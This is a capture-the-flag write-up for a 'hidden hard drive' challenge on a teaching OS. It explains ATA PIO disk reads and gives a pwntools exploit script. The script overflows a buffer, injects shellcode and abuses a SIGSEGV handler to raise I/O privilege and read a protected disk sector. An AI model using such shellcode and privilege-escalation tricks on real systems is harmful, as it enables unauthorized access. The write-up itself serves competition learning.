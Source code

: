 I used the directions [here](https://wiki.osdev.org/ATA_PIO_Mode#x86_Directions) to read from the hard disk.

First, we need to select a drive using 0x1f6. We want to use the master drive, since the flag is connected to the main hard drive(hda) we will send 0xe0. Since the LBA we want is just 0x0, we never have to have to worry about bits of the LBA.

Next, we can send a null byte to 0x1f1 for good measure.

Afterwords, we write to the sector count register(port 0x1f2) to define the amount of sectors we want to read. I just sent 0, which defaults to 256. This value doesn't really matter.

Then, port 0x1f3, port 0x1f4, and port 0x1f5. These all take 8 bits of the LBA to combine in order to create the sector address. Since our LBA is just 0x0, to all of these ports we just send a null byte.

Finally, before the read, we send 0x20 to 0x1f7(the command register). This command signals the device to allow us to read from the hard disk finally. In an actual environment, we would use a loop to keep polling until the hard disk is ready to give us the data(this can take several cpu cycles, which is why mmio is more popular). 

Afterwards, I use the rep insw instruction, which copies `ecx` words from port `dx` to the address `edi` to copy the flag into some free memory, and then the write syscall to write this to stdout.

Instead of polling, however, I just let nature take its course. After the new shellcode was simply a bunch of null bytes, which translates to the add byte ptr [eax], al. When eax isn't a valid address, this causes a sigsegv. Since our sigsegv handler is automatically configured to elevate privileges and attempt to read the flag, the process will be stuck in a constant loop of grabbing the flag. So, the flag gets spammed to stdout.


```python
from pwn import *
import time
e = ELF("./hidden_hard_drive")
context.arch = "i386"
p = process("./start.sh",shell=True) if args.LOCAL else remote('hiddenhd-pwnyos.chal.uiuc.tf', 1337)
NUM_TO_RET = 0x48

# Run vulnerable binary
time.sleep(5)
p.sendline("hidden_hard_drive")
p.recvuntil("0x")
bufaddr = int(p.recvline(), 16)
log.info(f"Buffer address: {hex(bufaddr)}")
newshellcode = bufaddr + 0x50
sc = asm(f"mov eax, 4; xor ebx, ebx; mov ecx, {hex(newshellcode)}; mov edx, 0x100 ; int 0x80")
# Register the new shellcode as sigsegv handler then trigger sigsegv
sc += asm(f"xor ebx, ebx ; mov ecx, {hex(newshellcode)} ; mov eax, 14 ; int 0x80")
sc += asm(f"mov eax, 0xdeadbeef ; mov dword ptr [eax], 0")
payload = fit({0: sc, NUM_TO_RET: bufaddr})
pause()
p.sendline(payload)
time.sleep(2)
handler = asm("mov ebx, dword ptr [esp+44] ; or ebx, 0x3000 ; mov dword ptr [esp+44], ebx")
handler += asm(f"mov dword ptr [esp+36], {hex(newshellcode + 0x17)}; ret")
handler += asm("mov dx, 0x1f6 ; mov al, 0xe0 ; out dx, al")
handler += asm("sub dx, 5 ; xor al, al ; out dx, al") # dx: 0x1f1
handler += asm("inc dx ; out dx, al") # dx: 0x1f2
handler += asm("inc dx ; out dx, al") # dx: 0x1f3
handler += asm("inc dx ; out dx, al") # dx: 0x1f4
handler += asm("inc dx ; out dx, al") # dx: 0x1f5
handler += asm("mov dx, 0x1f7 ; mov al, 0x20 ; out dx, al") # dx: 0x1f7
handler += asm("sub dx, 7 ; mov ecx, 0x20 ; mov edi, 0x8249000 ; rep insw") # dx: 0x1f0
handler += asm("xor ebx, ebx ; mov ecx, 0x8249000 ; mov edx, 0x40 ; mov eax, 5 ; int 0x80")
p.sendline(handler)
p.interactive()
```